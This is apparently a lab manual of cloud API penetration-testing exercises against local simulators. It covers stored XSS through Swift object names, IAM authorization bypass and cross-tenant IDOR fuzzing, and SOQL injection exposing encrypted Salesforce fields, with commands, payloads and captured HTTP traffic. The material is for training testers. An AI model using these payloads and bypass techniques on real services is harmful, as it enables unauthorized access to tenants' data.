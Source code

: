 # Exercises

A walkthrough of some sample exercises is provided next. Each respective cloud API simulator also contains additional exercises for you to explore outside of this content.

Each exercise assumes that you have already setup the simulator servers and the respective client tools.

---

<details>
<summary>Cross-site Scripting with REST APIs</summary>

![image](xss-exercise-sample-screenshot.png)

From a web browser (connected with your HTTP MitM Proxy, Burp) navigate to:
> `http://localhost:9080/REST/API/endpoint.cgi`
- If you are using Firefox and your requests are not showing up in Burp try a URL like `http://localtest.me:9080/REST/API/endpoint.cgi`

Observe that the page renders a listing of files stored in a backend OpenStack Swift (Object Storage). In the first release for customers they could use the upload functionality of this page to upload files to the server for storage.

Observe that if you attempt to upload a file with a filename that does not comply to the restrictions that you are blocked. Feel free to try repeating a few malicious payloads via Burp in an attempt to inject XSS on the list page. During the first pen test the service was not found vulnerable to XSS.

##### Customer Version 2
Months later customers demanded a way to more easily bulk upload millions of their data files. The application was updated to allow customers to use the OpenStack cloud REST APIs to perform bulk uploads via the Swift service.

Our subsequent pen test will uncover that an attacker can bypass the filename character input validation and cause XSS to be exploited on the application.

### Useful concepts

1. The Swift CLI for the OpenStack SDK and REST API
   - https://docs.openstack.org/ocata/cli-reference/swift.html
1. Observe: Object Storage != Filesystem Storage nor the same limitations
   - https://docs.openstack.org/api-ref/object-store/index.html#objects
   - https://docs.openstack.org/swift/latest/api/object_api_v1_overview.html

### Baseline Start (QA)

We start by only performing legitimate, expected behaviors (i.e. inputs) of the functionality. This tells us if the service we are testing actually works as well as what a valid request looks like.

```shell
echo $USER > sample_object.txt

swift --insecure -A https://localhost:8080/auth/v1.0 -U system:root -K testpass upload fileuploads ./sample_object.txt

swift --insecure -A https://localhost:8080/auth/v1.0 -U system:root -K testpass upload fileuploads /etc/os-release
```

Observe on the application website (GUI) that the file uploads now appear.

You can also observe the traffic in your HTTP MitM proxy (Burp). You will noticed that there are two calls. One to authenticate with the client credentials and obtain a token. Another to perform the actual upload. In this case we are not attacking the authentication or authorization but instead already have credentials.

### Malicious Input Injection

We observed previously that uploading files via the web browser (HTML/HTTP form upload) resulted in strict validation of the permitted filenames. Is that the case with the standard SDK of the OpenStack REST API?

```shell
swift --insecure -A https://${LAB_OPENSTACK_IP}:8080/auth/v1.0 -U system:root -K testpass copy fileuploads sample_object.txt -d '/fileuploads/easytest<script>alert("you been pwned")</script>forme'
```

Now observe the web UI result. You should see a simple (persistent) XSS payload execute.

Object Storage in the cloud is not strictly file storage. The key name of the object can be a wide range of byte sequences and not strictly characters.

ℹ️ In this example we used an API to copy an item already in the object storage but with a new key name. You could have also uploaded another file with a malicious name. The lesson is that you want to look for multiple possible API calls that were not considered by the application developers to cause unexpected behavior.
</details>

---

<details>
<summary>Authorization Bypass - Privilege Escalation</summary>

### Useful concepts

- Exercise scenario details
  - https://github.com/Coalfire-Research/cazt/blob/main/documentation/lab_manual/scenarios/07-impersonation.md

Identity and access management (IAM) controls include policies that define permissions for the caller of the expected actions (APIs) and resources (IDs). These permissions can allow things or deny things based on a variety of conditional states.

A configuration mistake in a policy by the client/customer/tenant can result in unauthorized access to data or the ability to use the service in unwanted ways. This typically falls on the customer-shared responsiblity.

However, the cloud (or service) provider must also ensure that their systems correctly interept both the policy documents and how it is applied to the user inputs. Failure to do so could result in unauthorized access to the tenant's data or privilege escalation.

### Baseline Start (QA)

From a terminal (connected to your proxy) run the following baseline (QA) command to verify that the service's API is working as expected:

```shell
gcloud cazt pet-sitter \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen7_impersonation@000000001111 \
    --format json \
    --arn=arn:cloud:iam:us-texas-9:000000001111:CareForPets
```

You'll observe a success response from the service. This is because the psuedo-policy allows access to CareForPets. Reference https://github.com/Coalfire-Research/cazt/blob/main/trainee/iam_policies/cazt_scen7_impersonation.json

### Malicious Input Injection

The goal is to bypass the IAM policy through a flaw in the cloud vendor's (responsibility) system to achieve FullAdmin access.

Attempt the following API REST call:

```shell
gcloud cazt pet-sitter \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen7_impersonation@00000000111 \
    --format json \
    --arn=arn:cloud:iam:us-texas-9:00000000111:FullAdmin
```

Note:
1. You must not change the `--account` value
   1. The attack is against authori**z**ation, not the authentication
   1. The attacker has only their own credentials, not anothers
   1. Do not change the HTTP authentication header either
1. Verify that the request is visible in your HTTP MitM proxy (i.e. Burp)
1. The response should indicate that your request to the API was denied

##### Goal

The goal is to get a success response like the following:
```json
{
  "Message": "00000000111 using impersonation arn:cloud:iam:us-texas-9:00000000111:FullAdmin"
}
```

##### Attack Methodologies

1. Identify the input to attack
   - In this case "arn"
1. Attempt fuzzing of the input value
   - Encode some characters with URL character encoding escapes
   - Try adding extra spaces at the beginning or end
   - Duplicate the key+value in the JSON
   - Change the value from a single string to an array of values
     - One with the legit value CareForPets, the other FullAdmin
     - Which value is used for authorization versus the business logic?
   - Are the key names or values case sensitive?

##### Solution

```http
TODO add example
```

```http
TODO add example
```

In this case the software bug in the API was that the policy authorization rules were applied with case sensitivity in parts that were case insensitive.

</details>

---

<details>
<summary>Authorization Bypass - IDOR / Confused Deputy</summary>

### Useful concepts

- Exercise scenario details
  - https://github.com/Coalfire-Research/cazt/blob/main/documentation/lab_manual/scenarios/02-cross_tenant.md

Identity and access management (IAM) controls include policies that define permissions defined by the customer/client/tenant owner. An expectation is that only the permissions the tenant chose to grant would permit access to their account data or resources.

The cloud (or service) provider must also ensure that their systems correctly interept both the policy documents, the inputs coming into an API, and whether the caller (tenant) was granted access. This applies for whether the caller is a member of the same tenant account or belongs to another tenant account.

### Baseline Start (QA)

From a terminal (connected to your proxy) run the following baseline (QA) command to verify that the service's API is working as expected:

```shell
gcloud cazt get \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen2_cross-tenant@123456789012 \
    --format json \
    --name=NotMyMoggy
```

For cloud APIs you will either observe an unauthorized response or a response that the item was not found (because it looked in your own account which did not have it). In this case we notice that NotMyMoggy was created in the tenant account `000000002222` but the caller's credentials are only for account `123456789012`.

ℹ️ If you need to reset the sample data see [CAZT - Populate sample data](configuration.md#populate-sample-data)

### Malicious Input Injection

In your HTTP MitM proxy (Burp) review your previous get API call.

Note:
1. You must not change the `--account` value
   1. The attack is against authori**z**ation, not the authentication
   1. The attacker has only their own credentials, not anothers
   1. Do not change the HTTP authentication header either

You will see in a psuedo-IAM policy that it uses a resource identifier that is longer than just a short id. The long-form of a resource ID looks like `arn:cloud:cazt:REGION:ACCOUNTID:SomeResourceNameOnly` or `//iam.googleapis.com/projects/PROJECT_ID/serviceAccounts/SERVICE_ACCOUNT_EMAIL` or `/subscriptions/xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx/resourceGroups/myResourceGroup/providers/Microsoft.Compute/virtualMachines/myVM` (it varies by the cloud provider).

##### Goal

The end goal is to call the GetMoggy API from the attacker's  `--account=cazt_scen2_cross-tenant@123456789012` to get the resource that belongs to the victim in account `000000002222`.

```json
{
  "ActivityLogObjectStorage": "moggylitterbox-000000002222",
  "CreatedAt": 1751213493,
  "Description": null,
  "Name": "NotMyMoggy"
}
```

##### Attack Methodologies

1. You may assume that the attacker has knowledge of any API resource nomenclature (ARNs) or resource names belonging to the target victim.
   1. IDs are not secrets nor should knowledge of the ID be the only access control
1. The attacker would configure their own tenant account calling user with administrator (or * wildcard) permissions
   1. The attacker does not have any permissions granted by the target victim
   1. The attacker does control their own account so they would grant themselves (in their own tenant account) full admin
   1. This ensure that if the cloud service checks the caller's permissions to the API action only (but not the target resource input) it would not be blocked prematurely
1. Identify the input to attack
   - In this case "name"
1. Attempt fuzzing of the input value
   - Encode some characters with URL character encoding escapes
   - Try adding extra spaces at the beginning or end
   - Duplicate the key+value in the JSON
   - Change the value from a single string to an array of values
     - Which value is used for authorization versus the business logic?
   - Are the key names or values case sensitive?
1. Are there alternative aliases or conventions for defining the identifier?
   - MyShortID
   - arn:cloud:cazt:REGION:ACCOUNTID:MyShortID

##### Solution

```http
TODO add example
```

```http
TODO add example
```

In this case the API software bug was that it assumed only the short-form which it resolved as a relative alias to the full-length identifier. When supplied with an already resolved identifier it did not perform any resolution against the caller's account ID but just trusted the value given.

</details>

---

<details>
<summary>Encrypted Field Data Access Bypass - SOQL Injection</summary>

### Prerequisites

- Install Setup
  - https://github.com/Coalfire-Research/paas-cloud-goat
- You should be logged in using the standard user profile role
- Your web browser should already be connected to your HTTP MitM proxy (Burp)
- The PaaS Cloud Goat applciation has helpful documentation in the lab exercise pages as well

### Baseline Start (QA)

In the PaaS Cloud Goat "welcome" tab navigate to the "Encrypted Field" page

1. The cloud vendor manages the encryption and keys for the encrypted field feature
1. You will observe that the masked values of the encrypted fields correspond to the exact length of the clear-text data
   1. Think of the feature more as an ACL restriction
   1. By default even your Salesforce org administrator does not get access to encrypted fields
   1. There is a checkbox in the Salesforce configuration for granting access to view the data
      - However, this exercise will demo how to bypass the control without a customer misconfiguration
1. Observe on this screen that a Salesforce API change corrected a common developer mistake
   1. The API used to have a clear-text viewing method that was commonly misused and exposed the data
   2. Now the data appears masked regardless

### Malicious Input Injection

Navigate to the page "SOQL Injection - Variant 3" which will simulate a SOQL vulnerability in the application. Execute the default query and observe the request + response in your HTTP MitM proxy (Burp).

```
POST /apex/SOQLInjection3?isdtp=p1&sfdcIFrameOrigin=https://na-personal-dev-ed.develop.lightning.force.com HTTP/2
Host: na-personal-dev-ed--c.develop.vf.force.com
Cookie: ...REDACTED...
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: ...REDACTED...
Content-Type: application/x-www-form-urlencoded
Content-Length: 8103
Origin: https://na-personal-dev-ed--c.develop.vf.force.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4
Te: trailers

...REDACTED...
j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39=j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id43=SELECT+id%2Cownerid%2Cisdeleted%2Cname%2Ccreateddate%2Ccreatedbyid%2Clastmodifieddate%2Clastmodifiedbyid%2Csystemmodstamp%2Clastvieweddate%2Clastreferenceddate%2Centrypin__c+FROM+Building__c&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id45=Submit&com.salesforce.visualforce.ViewState=...REDACTED...000&com.salesforce.visualforce.ViewStateMAC=AG...REDACTED...%3D&com.salesforce.visualforce.ViewStateCSRF=VmpFPSxNakF5TlMwd09TMHhObFF4TlRvd01qb3dOQzR4TkRaYSxiRmw2U0pWVkFYMXlmZFNLYW5GQ1liSk9jWVZaVXZmOTZ5WVpIYnBNWC1JPSxNVFppTUdNeA%3D%3D
...REDACTED...
```

```
HTTP/2 200 OK
Date: Sat, 13 Sep 2025 15:02:22 GMT
Content-Type: text/html;charset=UTF-8
...REDACTED...

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html lang="en-US"><head><script src="/static/111213/js/perf/stub.js" type="text/javascript"></script><script type="text/javascript">window.Sfdc = window.Sfdc || {};
...REDACTED...
        <h2>Resulting Output</h2>

        <p>
            <pre>[Building__c (Id:a00aj000010xZfbAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Vault, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:42)]
[Building__c (Id:a00aj000010xZfcAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Satellite, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:71478)]
[Building__c (Id:a00aj000010xZfdAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:HQ, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:123123)]
[Building__c (Id:a00aj000010xZfeAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Bunker, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:71927)]</pre>
        </p></div><div class="pbFooter secondaryPalette"><div class="bg"></div></div></div></div><script type="text/javascript">Sfdc.onReady(function(){
	SfdcApp && SfdcApp.Visualforce && SfdcApp.Visualforce.VSManager && SfdcApp.Visualforce.VSManager.vfPrepareForms(["j_id0:j_id35:j_id36:j_id37:j_id39"]);
...REDACTED...
```

The part of the request that you are interested in is the `&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id43`. The input parameter name and path were assembled by the service framework for the developer. If you look at the Apex API controller itself it uses more friendly names such as `query`. If you know the Apex controller APIs parameter names you could use those as well:

```
query=SELECT+id%2Cownerid%2Cisdeleted%2Cname%2Ccreateddate%2Ccreatedbyid%2Clastmodifieddate%2Clastmodifiedbyid%2Csystemmodstamp%2Clastvieweddate%2Clastreferenceddate%2Centrypin__c+FROM+Building__c&querySOQL=Submit
```

Note that you must keep the session identifiers such as:
- com.salesforce.visualforce.ViewState
- com.salesforce.visualforce.ViewStateVersion
- com.salesforce.visualforce.ViewStateMAC
- com.salesforce.visualforce.ViewStateCSRF

##### Goal

The end goal is to retrieve the clear-text values of the encrypted fields.

##### Attack Methodologies

Modify the injectable SOQL query for the API /apex/SOQLInjection3.

We are interested in obtaining the encrypted field Ingredient from the `Secret Sauce` object. Since these are custom objects in Salesforce they will require appending `__c` to get their data schema names.

Take our original, unencoded query that retrieved information about buildings:
```sql
SELECT id,ownerid,isdeleted,name,createddate,createdbyid,lastmodifieddate,lastmodifiedbyid,systemmodstamp,lastvieweddate,lastreferenceddate,entrypin__c FROM Building__c
```

To validate if we've guessed or used the correct object schema name we use well known global attributes:

```sql
SELECT id FROM SecretSauce__c
```

Re-encode the query and submit it to the service. If you get results you know you have a valid query. Otherwise you may get an error page or an empty page.

##### Solution

Continuing with guessing the target schema attribute names we arrive at:

```sql
SELECT id,name,SecretIngredient__c FROM SecretSauce__c
```

We observe that even though the user did not have permission to the encrypted field the injection vulnerability allowed us to access the clear-text data.

</details>

